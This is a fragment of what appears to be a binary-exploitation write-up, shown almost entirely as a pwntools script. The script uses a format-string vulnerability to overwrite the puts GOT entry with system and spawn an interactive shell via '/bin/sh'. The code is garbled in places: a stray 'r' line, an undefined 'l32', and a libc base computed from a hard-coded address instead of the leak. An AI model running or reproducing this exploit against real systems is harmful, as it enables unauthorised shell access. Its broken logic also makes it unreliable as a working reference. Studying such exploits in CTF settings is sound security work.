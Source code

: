 ```plain

r
puts_addr=l32
puts_real=0x804a028
#0x804a028
leak('puts',puts)
pause()

libcbase=0x804a028-puts_libc

leak('libcbase',libcbase)

system_addr=libcbase+libc.symbols['system']

payload = fmtstr_payload(7, {puts:system_addr})
put('/bin/sh', payload)
get('/bin/sh')

p.sendline('dir')
p.interactive()
```

[![](assets/1701612281-6d1294300ae8800e6460db012f5e1e27.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223935-eab0d448-2578-1.png)

